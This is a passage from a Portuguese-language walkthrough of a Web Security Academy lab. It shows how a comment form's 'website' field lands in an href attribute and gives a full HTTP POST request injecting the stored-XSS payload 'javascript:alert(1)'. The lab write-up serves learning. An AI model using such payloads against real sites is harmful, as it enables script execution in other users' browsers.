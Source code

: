 ```http
Connection: close

csrf=cMePI5BW0mBQ9D0N4NJEqXm46g9BgraQ&postId=3&comment=Sonael&name=Sonael&email=sonael%40net.com&website=https%3A%2F%2Fsonaelneto.org

```

Perceba que o comentário é enviado através de um formulário, e que o campo `website` é o campo que contém o link que será armazenado no banco de dados.

Isso fica mais claro quando fazemos uma requisição GET para a página onde foi adicionado o comentário e analisamos a resposta.

```html

    <section class="comment">
        <p>
        <img src="/resources/images/avatarDefault.svg" class="avatar">                            
        <a id="author" href="https://sonaelneto.org">Sonael</a> | 26 January 2023
        </p>
        <p>Sonael</p>
        <p></p>
    </section>

```

Perceba que o campo `website` está sendo usando para preencher o atributo `href`, podemos usar-lo para inserir um XSS no link, para que então quando o usuário clicar no link, o XSS será executado.

Para isso vamos utilizar o payload `javascript:alert(1)` no campo `website`.

```http

POST /post/comment HTTP/1.1
Host: 0a8e00750415315ac74f5a89005200f8.web-security-academy.net
Cookie: session=SiuC6jAxsQZycfh99WMHlAYAInNC4jq2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: https://0a8e00750415315ac74f5a89005200f8.web-security-academy.net
Referer: https://0a8e00750415315ac74f5a89005200f8.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=cMePI5BW0mBQ9D0N4NJEqXm46g9BgraQ&postId=3&comment=teste&name=sonael&email=sonael%40net.com&website=javascript%3Aalert%281%29

```
